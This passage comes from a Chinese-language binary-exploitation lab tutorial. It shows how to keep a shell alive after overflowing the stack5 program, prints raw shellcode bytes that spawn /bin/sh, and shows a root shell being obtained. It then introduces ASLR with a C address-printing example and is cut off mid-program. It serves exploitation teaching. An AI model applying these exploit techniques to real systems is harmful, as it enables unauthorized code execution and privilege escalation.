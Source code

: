 ```shell
$ cat payload_shell | ./stack5
```
我們思考，Shell 執行時，我們希望會獲得輸入，在 Linux 預設情況下，會是從 `stdin` 這個檔案描述子尋找，檔案描述子對應到的檔案為我們的鍵盤，但是在我們的範例中，我們使用 `./stack5` 去開了一個 Shell，這時候 `stdin` 和 `stdout` 會導向到我們的 `./stack5` 中，在 `./stack5` 結束並被 Shell 取代時，`./stack5` 會將 pipe 關閉，但這時候 Shell 便收不到 input，因此關閉，我們可以使用一些技巧完成，假設我們輸入 `cat` 
```shell
$ cat
123
123
Hello
Hello
```
可以看到我們輸入了什麼內容，螢幕上就會印出什麼內容，這時候 `stdin` 連接到我們的鍵盤，`stdout` 連接到終端機上，也就是 Linux 預設行為。

我們可以使用 `;` 去串連多個指令，假設我們執行以下
```shell
$ cat payload_shell ; cat
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMOOOOPPPPQQQQRRRRSSSSTTTT����������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin�����°̀
                                                                                              1�@̀
```
`cat` 先將 `python2 script.py` 結果印到螢幕上，接著等待使用者輸入，這邊我們要做的事情，是希望我們執行 `python2 script.py` 將腳本輸入到 `./stack5` 之後，回傳的 Shell 由 `cat` 接收，接著 `cat` 印出 Shell，這邊意義為將 `stdout` 接到終端機上，而 Shell 的 `stdin` 則會被接到鍵盤上，完成獲得 Shell 的操作。

```shell
$ (cat payload_shell ; cat) | ./stack5
ls
ls
payload  peda-session-stack5.txt  script.py  stack5
whoami
ubuntu
sudo su
whoami
root
```
成功獲得 Shell。
## ASLR
在大多數攻擊中，如 Lab3 的 Jump to function，我們都具備一個先決條件，便是我們已經知道程式的記憶體分布，我們需要提前知道一些資料的位置，才能夠使我們的攻擊成立，而 ASLR 全名為 Address Space Layout Randomization，意義為記憶體分布隨機化，為一種基於作業系統層面的技術，在 2001 時出現在 PaX 專案中，於 2005 年正式的引入到 Linux 中，ASLR 提供了機率上的安全性，讓攻擊的成功率降低。

在 Linux 中，ASLR 的設定放置於 `/proc/sys/kernel/randomize_va_space`，一共有三種情況
- 0 表示關閉 ASLR
- 1 表示部分開啟，會將 mmap 的基底記憶體地址，stack 和 VDSO 記憶體分頁進行隨機化
- 2 基於 1 的部分，增加 heap 上的隨機化

我們可以看在開啟 ASLR 的記憶體分布情況
```c
#include <stdio.h>
#include <stdlib.h>
#include <dlfcn.h>

int main(void) {
    int stack;
    int *heap = (int *)malloc(sizeof(int));
    void *handle = dlopen("libc.so.6", RTLD_NOW | RTLD_GLOBAL);

    printf("executable: %p\n", &main);
    printf("system@plt: %p\n", &system);
    printf("heap: %p\n", heap);
    printf("stack: %p\n", &stack);
    printf("libc: %p\n", handle);

```